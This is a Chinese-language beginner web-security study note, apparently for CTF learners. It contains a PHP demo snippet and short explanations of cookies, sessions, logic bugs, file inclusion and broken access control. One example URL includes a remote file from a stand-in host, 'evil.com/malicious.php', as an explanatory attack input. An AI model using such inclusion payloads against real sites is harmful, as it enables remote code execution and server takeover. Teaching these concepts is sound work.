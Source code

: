 ```php
    // 条件语句
    if ($age >= 18) {
        echo "<p>我已成年。</p>";
    } else {
        echo "<p>我未成年。</p>";
    }

    // 数组
    $fruits = array("apple", "banana", "cherry");
    echo "<p>我喜欢的水果有：</p>";
    echo "<ul>";
    foreach ($fruits as $fruit) {
        echo "<li>$fruit</li>";
    }
    echo "</ul>";

    // HTML 短标签
    ?>
    <p>这是使用 HTML 短标签的示例：</p>
    <?= "当前时间是：" . date("Y-m-d H:i:s") ?>
    
    <?php
    $fr = "pear";
    $pear = 114;
    $lingo = 514;
    echo $$fr;
    ?>
</body>
</html>
```

通过国内开源软件 phpstudy 搭建这个页面吧！

### SQL

入门可以从 MySQL 开始，各种SQL语法大差不差。

请自学

### 后端相关安全话题

- Cookie 与 Session
    - **Cookie**：存储在客户端的小型文本文件，通常用于存储用户的偏好设置、身份验证信息等。
        - **示例**：用户登录后，服务器发送一个包含用户ID的Cookie到客户端，客户端在后续请求中自动包含该Cookie，以便服务器识别用户。
        - **Cookie劫持**：攻击者通过XSS攻击或其他手段获取用户的Cookie，从而冒充用户身份。
    - **Session**：存储在服务器端的临时数据存储区域，通常用于存储用户的会话状态信息。
        - **示例**：用户登录后，服务器创建一个Session，并将Session ID通过Cookie发送给客户端。客户端在后续请求中包含该Session ID，服务器根据Session ID查找对应的Session数据。
        - 如果服务器被攻破，Session中就可能有一些敏感信息。
- **逻辑漏洞**：验证不充分、想当然的写法、条件竞争、未发现的旁门左道……
    - 程序员的傲慢可能会让他认为`a==1&&a==2` 一定是 false 但……
    - ![[神奇Javascript.png]]
- 任意文件读与任意代码执行
    - 例如一个Web应用允许用户上传头像，但未对上传的文件进行严格的类型和内容检查。攻击者上传一个包含恶意代码的文件，并通过文件包含漏洞执行该代码，从而控制服务器。
    - CTF竞赛中，能读服务器上 `/flag` 则读，否则就暗示我们需要 RCE (不然连 flag 在哪个文件都不知道).
- 文件包含：例如一个Web应用允许用户通过URL参数指定要包含的文件，如`index.php?page=about`。攻击者可以通过构造恶意URL，如`index.php?page=http://evil.com/malicious.php`，包含远程恶意文件，从而执行恶意代码。
- 越权：例如一个Web应用允许用户查看自己的订单信息，但未正确验证用户的身份。攻击者可以通过篡改URL参数，如`order.php?id=123`，查看其他用户的订单信息。
    - 永远不要相信用户的数据！前端代码也许永远不会访问其他用户的数据，但这不代表恶意攻击者就不会。
